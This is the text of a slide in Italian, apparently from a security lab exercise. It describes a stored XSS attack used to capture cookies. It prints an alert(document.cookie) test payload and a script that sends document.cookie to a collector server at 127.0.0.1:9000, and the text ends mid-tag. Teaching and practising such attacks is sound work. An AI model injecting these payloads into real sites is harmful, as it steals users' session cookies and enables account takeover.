

# Andati su XSS stored per andare ad intercettare i cookie. Con il seguente commando: <script>alert(document.cookie)</script> Una volta intercettati i cookie, abbiamo lanciato la nostra richiesta di invio al server creato con il commando: <script>window.location='http://127.0.0.1:9000/?cookie=' + document.cookie</script